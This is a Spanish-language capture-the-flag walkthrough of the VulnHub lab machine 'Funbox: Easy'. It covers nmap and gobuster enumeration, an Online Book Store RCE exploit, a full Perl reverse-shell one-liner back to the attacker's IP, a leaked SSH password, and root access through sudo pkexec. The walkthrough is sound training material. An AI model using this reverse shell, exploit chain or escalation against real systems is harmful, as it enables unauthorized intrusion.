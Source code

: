 # Funbox: Easy

[link => Funbox: Easy](https://www.vulnhub.com/entry/funbox-easy,526/#download) 

---

## Escaneo de red con nmap para descubrir máquina objetivo

```bash
nmap -sn 10.38.1.0/24
```

![nmaphd](/images/writeups/vulnhub/funboxeasy/nmaphd.png)

### La IP de la máquina objetivo es **10.38.1.16**

## Escaneo de la máquina objetivo en busca de puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.38.1.16 -oN target_scan.nmap
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 21:44 EDT
Initiating ARP Ping Scan at 21:44
Scanning 10.38.1.16 [1 port]
Completed ARP Ping Scan at 21:44, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:44
Scanning 10.38.1.16 [65535 ports]
Discovered open port 80/tcp on 10.38.1.16
Discovered open port 22/tcp on 10.38.1.16
Discovered open port 33060/tcp on 10.38.1.16
Completed SYN Stealth Scan at 21:44, 3.11s elapsed (65535 total ports)
Nmap scan report for 10.38.1.16
Host is up, received arp-response (0.000090s latency).
Scanned at 2024-04-12 21:44:19 EDT for 3s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
80/tcp    open  http    syn-ack ttl 64
33060/tcp open  mysqlx  syn-ack ttl 64
MAC Address: 08:00:27:9D:49:4A (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### **Puertos Abiertos: 22,80,33060**

## Ejecución de scripts con nmap

```bash
sudo nmap -sCV -p22,80,33060 10.38.1.16 -oN scripts_exec.nmap
```

```bash
Nmap scan report for 10.38.1.16
Host is up (0.00066s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:d8:51:6e:c5:84:05:19:08:eb:c8:58:27:13:13:2f (RSA)
|   256 b0:de:97:03:a7:2f:f4:e2:ab:4a:9c:d9:43:9b:8a:48 (ECDSA)
|_  256 9d:0f:9a:26:38:4f:01:80:a7:a6:80:9d:d1:d4:cf:ec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
```

## Enumeración de directorios con gobuster

```bash
gobuster dir -u http://10.38.1.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.38.1.16/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/store                (Status: 301) [Size: 308] [--> http://10.38.1.16/store/]
/admin                (Status: 301) [Size: 308] [--> http://10.38.1.16/admin/]
/secret               (Status: 301) [Size: 309] [--> http://10.38.1.16/secret/]
/gym                  (Status: 301) [Size: 306] [--> http://10.38.1.16/gym/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Búsqueda de exploit para el software CSE bookstore

```bash
searchsploit Online Book Store 1.0 - Unauthenticated Remote Code Execution
```
```bash
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Online Book Store 1.0 - Unauthenticated Remote Code Execution                | php/webapps/47887.py
----------------------------------------------------------------------------- ---------------------------------
```

### Ejecución de exploit con python

```bash
python3 book_store_exploit.py http://10.38.1.16/store/
```
### Ejecución de comandos 

#### Revshell perl

```pl
perl -e 'use Socket;$i="10.38.1.10";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Contraseña encontrada para el usuario tony en password.txt

![password](/images/writeups/vulnhub/funboxeasy/password.png)

## Conexión vía ssh con el usuario tony y contraseña yxcvbnmYYY

```bash
ssh tony@10.38.1.16
```

## Permisos sudo 

```bash
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

## Escalada de privilegios con pkexec

```bash
tony@funbox3:~$ sudo pkexec /bin/sh
```

## Flag del usuario root

```bash
# whoami
root
# cd ..
# ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  swap.img  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       usr
# cd root
# ls
root.flag  snap
# cat root.flag
 __________          ___.                      ___________                     
\_   _____/_ __  ____\_ |__   _______  ___ /\  \_   _____/____    _________.__.
 |    __)|  |  \/    \| __ \ /  _ \  \/  / \/   |    __)_\__  \  /  ___<   |  |
 |     \ |  |  /   |  \ \_\ (  <_> >    <  /\   |        \/ __ \_\___ \ \___  |
 \___  / |____/|___|  /___  /\____/__/\_ \ \/  /_______  (____  /____  >/ ____|
     \/             \/    \/            \/             \/     \/     \/ \/     

```

